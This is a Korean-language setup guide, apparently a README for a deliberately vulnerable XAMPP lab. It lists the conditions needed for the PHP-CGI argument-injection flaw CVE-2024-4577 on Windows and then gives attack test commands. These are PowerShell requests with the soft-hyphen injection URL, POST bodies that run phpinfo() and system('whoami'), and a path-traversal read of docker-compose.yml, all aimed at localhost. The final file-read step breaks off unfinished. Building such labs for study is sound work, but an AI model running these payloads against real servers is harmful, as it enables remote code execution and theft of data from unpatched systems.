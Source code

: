 ### 문제 4: CVE-2024-4577 작동 안 함

**체크리스트:**
- [ ] PHP 버전이 8.1.25 이하인가?
- [ ] Server API가 CGI/FastCGI인가?
- [ ] cgi.fix_pathinfo = 1 설정되었나?
- [ ] Windows 환경인가? (리눅스는 안됨)
- [ ] allow_url_include = On 인가?

---

## 📊 최종 확인 체크리스트

```powershell
# 한 번에 확인
powershell -Command "
Write-Host '=== XAMPP 설정 확인 ===' -ForegroundColor Green
Write-Host 'PHP Version:' (C:\xampp\php\php.exe --version | Select-String 'PHP')
Write-Host 'Apache Status:' (Get-Service -Name Apache2.4).Status
Write-Host 'MySQL Status:' (Get-Service -Name MySQL).Status
Write-Host ''
Write-Host '접속 URL:' -ForegroundColor Yellow
Write-Host 'http://localhost/1x_inv/'
Write-Host ''
Write-Host 'CVE-2024-4577 테스트:' -ForegroundColor Red
Write-Host 'http://localhost/1x_inv/support.php?lang=ko%ADd+allow_url_include%3d1+-d+auto_prepend_file%3dphp://input'
"
```

**체크리스트:**
- [ ] XAMPP 설치 완료
- [ ] Git으로 프로젝트 복사
- [ ] httpd.conf 수정 (PHP-CGI 설정)
- [ ] php.ini 수정 (CGI 활성화)
- [ ] MySQL 데이터베이스 생성
- [ ] init-db.sql 실행
- [ ] api/config.php 생성
- [ ] Apache 재시작
- [ ] PHP-CGI 모드 확인 (phpinfo)
- [ ] CVE-2024-4577 테스트 성공

---

## 🎯 공격 테스트 명령어

```powershell
# 1. 기본 정보 수집
Invoke-WebRequest http://localhost/1x_inv/support.php?page=../docker-compose.yml

# 2. phpinfo 실행 (CVE-2024-4577)
$url = "http://localhost/1x_inv/support.php?lang=ko%ADd+allow_url_include%3d1+-d+auto_prepend_file%3dphp://input"
Invoke-WebRequest -Uri $url -Method POST -Body "<?php phpinfo(); ?>"

# 3. 시스템 명령 실행
$url = "http://localhost/1x_inv/product.php?lang=en%ADd+allow_url_include%3d1+-d+auto_prepend_file%3dphp://input"
Invoke-WebRequest -Uri $url -Method POST -Body "<?php system('whoami'); ?>"

# 4. 파일 읽기
$url = "http://localhost/1x_inv/company.php?lang=ko%ADd+allow_url_include%3d1+-d+auto_prepend_file%3dphp://input"
```